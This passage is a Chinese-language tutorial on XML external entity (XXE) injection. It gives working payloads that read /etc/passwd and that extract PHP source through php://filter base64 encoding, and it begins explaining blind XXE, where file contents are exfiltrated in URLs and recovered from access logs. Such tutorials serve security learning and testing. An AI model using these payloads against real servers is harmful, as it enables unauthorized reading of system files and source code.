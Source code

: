 这里声明了一个外部实体 `xxe`，值为 `file:///etc/passwd`，即本地 `/etc/passwd` 文件的内容

```Xml
<!ENTITY xxe SYSTEM "file:///etc/passwd" >
```

然后在元素 user 内引用了该实体 `&xxe;`

```xml
<user>&xxe;</user>
```

成功读取到文件：

![](https://ws1.sinaimg.cn/large/006Vib6xly1fpss2ik7erj30z906uacy.jpg)

#### 读取存在特殊字符的文件：

当我们读取的文件内容中包含有特殊字符`<&`等时，会导致解析错误，读取失败

这时候我们需要借助`php://filter`中的base64过滤器进行编码

Payload:

```xml
<?xml version="1.0" ?> <!DOCTYPE creds [
<!ELEMENT user ANY >
<!ELEMENT pass ANY >
<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/XXE/xxe.php" >]>
<creds>
<user>&xxe;</user>
<pass>test</pass>
</creds>
```

成功返回：

![](https://ws1.sinaimg.cn/large/006Vib6xly1fpst2iuxf1j30za022gm0.jpg)

成功读取到源码，我们只要将其解码即可

#### Blind XXE

在之前的例子中，结果被作为响应的一部分被返回了，但如果遇到没有回显的情况，就需要使用其他办法。

因为无法直接将要读取的文件内容发送到服务器，所以需要通过变量的方式，先把要读取的文件内容保存到变量中，然后通过 URL 引用外部实体的方式，在 URL 中引用该变量，让文件内容成为 URL 的一部分(如查询参数)，然后通过查看访问日志的方式来获取数据。

只有在DTD文件中声明了参数实体时，才可以引用其他参数实体

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE foo [
    <!ENTITY % param1 "Hello">
    <!ENTITY % param2 ",World">
    <!ENTITY % outter SYSTEM "other.dtd">
    %outter;
]>
```
